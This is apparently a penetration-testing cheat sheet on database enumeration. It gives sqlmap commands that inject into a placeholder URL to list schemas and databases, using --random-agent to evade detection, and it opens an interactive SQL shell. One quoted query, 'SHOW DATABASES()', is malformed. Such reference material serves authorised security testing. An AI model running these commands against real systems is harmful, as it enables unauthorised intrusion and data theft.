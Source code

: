 # 03 - Databases

Search Tag(s): #sqlmap #enumeration-and-discovery

## 3.1 - Automated

- Enumerate database schema.

```
$ sqlmap -u "<URL>" --random-agent --schema
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u "<URL>" --random-agent --schema --exclude-sysdbs
```

- Enumerate current database.

```
$ sqlmap -u "<URL>" --random-agent --current-db
```

- Enumerate available databases.

```
$ sqlmap -u "<URL>" --random-agent --dbs
```

## 3.2 - Manual

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SHOW DATABASES()

sql-shell> SELECT schema_name FROM information_schema.schemata
```